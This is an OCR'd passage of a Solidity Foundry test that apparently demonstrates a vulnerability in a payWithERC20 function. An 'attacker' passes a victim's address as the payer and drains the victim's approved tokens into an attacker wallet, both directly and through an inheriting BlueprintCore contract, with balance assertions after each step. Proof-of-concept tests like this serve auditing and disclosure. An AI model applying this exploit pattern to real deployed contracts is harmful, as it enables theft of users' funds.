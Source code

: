 ```solidity
            address(mockToken),  // Token address
            50 ether,           // Amount to steal
            victim,             // From address (the victim)
            attackerWallet      // To address (attacker's wallet)
        );
        
        // STEP 3: Verify the tokens have been transferred
        assertEq(mockToken.balanceOf(victim), 950 ether);
        assertEq(mockToken.balanceOf(attackerWallet), 50 ether);
        
        // STEP 4: Attacker can drain all approved tokens
        vm.prank(attacker);
        payment.payWithERC20(
            address(mockToken),
            50 ether,
            victim,
            attackerWallet
        );
        
        // Verify the remaining approved tokens have been transferred
        assertEq(mockToken.balanceOf(victim), 900 ether);
        assertEq(mockToken.balanceOf(attackerWallet), 100 ether);
        
        // STEP 5: Demonstrate that this also works through the BlueprintCore contract
        // since it inherits from Payment
        vm.prank(attacker);
        blueprint.payWithERC20(
            address(mockToken),
            50 ether, // This will work because the victim approved tokens to the blueprint contract
            victim,
            attackerWallet
        );
        
        // Verify the additional tokens have been transferred
        assertEq(mockToken.balanceOf(victim), 850 ether);
        assertEq(mockToken.balanceOf(attackerWallet), 150 ether);
        
        // Drain the remaining tokens approved to the blueprint contract
        vm.prank(attacker);
        blueprint.payWithERC20(
            address(mockToken),
            50 ether,
            victim,
            attackerWallet
        );
        
        // Verify all approved tokens have been drained
        assertEq(mockToken.balanceOf(victim), 800 ether);
        assertEq(mockToken.balanceOf(attackerWallet), 200 ether);
    }
}
```
